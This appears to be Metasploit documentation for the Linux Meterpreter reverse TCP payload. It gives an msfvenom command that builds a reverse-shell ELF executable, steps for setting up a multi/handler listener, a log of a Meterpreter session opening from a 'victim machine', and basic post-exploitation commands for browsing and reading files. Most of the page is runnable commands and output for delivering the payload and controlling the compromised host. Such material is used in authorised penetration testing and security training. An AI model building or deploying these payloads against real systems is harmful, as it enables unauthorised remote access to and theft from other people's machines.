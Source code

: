 **As a standalone executable**

To use linux/x86/meterpreter/reverse_tcp as an executable, first you can generate it with msfvenom:

```
./msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f elf -o /tmp/payload.bin
```

Before sending the executable to the victim machine, you need to set up the handler on your end:

1. Start msfconsole
2. Do: ```use exploit/multi/handler```
3. Do: ```set PAYLOAD linux/x86/meterpreter/reverse_tcp```
4. Do: ```set LHOST [Your IP]```
5. Do: ```run```

And that should start the listener. When the victim runs the malicious exectauble, you should
receive a session:

```
msf exploit(handler) > run

[*] Started reverse TCP handler on 172.16.23.1:4444 
[*] Starting the payload handler...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 172.16.23.182
[*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.182:45009) at 2016-07-06 22:40:35 -0500

meterpreter > 
```


## Important Basic Commands

Here is a list of some of the common commands you might need while using the Linux Meterpreter:

**pwd**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/home/sinn3r/Desktop
```

**cd**

The cd command allows you to change directories. Example:

```
meterpreter > cd /tmp
```

**cat**

The cat command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
hello world
```
